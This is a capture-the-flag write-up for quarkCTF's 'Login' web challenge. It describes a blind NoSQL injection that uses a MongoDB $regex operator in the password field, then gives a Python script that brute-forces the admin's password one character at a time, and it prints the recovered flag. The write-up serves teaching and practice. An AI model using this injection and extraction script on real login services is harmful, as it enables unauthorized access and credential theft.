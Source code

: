 Login
=

Our admin belives his app is secure, please prove him wrong.

### Website: https://login.ctf.teamquark.com/

### Author: Apoorva Pendse and Gourav Suram

### Files: [web_login.zip](./web_login.zip)

Solution
=

Looking at the source code, we dont see any particular way to login, so I looked up on google on how to login in such kind of questions. The suddenly, `blind nosqli` popped up in my mind.

I then made a bold assumption stating that `admin` will be the username and the flag with be the password. And this is where all lights became bright and everything made sense.

I quickly set the username to admin and password to `{"$regex":"^<flag>"}` where we can bruteforce each character. I then made a script to do that:

```py
import requests
import urllib3
import string
import urllib

flag = list("")
url = "https://login.ctf.teamquark.com/api/login"
headers = {'content-type': 'application/json'}

while True:
    for c in string.printable:
        print (f"trying : {''.join(flag) + c}")
        if c not in ['*','+','.','?','|']:
            payload='{"username": {"$eq": "admin"}, "password": {"$regex": "^%s" }}' % (''.join(flag) + c)
            req = requests.post(url, data = payload, headers = headers, verify = False, allow_redirects = False)
            if 'Login Successful' in req.text:
                flag.append(c)
                break
```

After a lot of warnings, we finally get the flag!

`quarkCTF{n0sqL_sur3_i5_fun}`
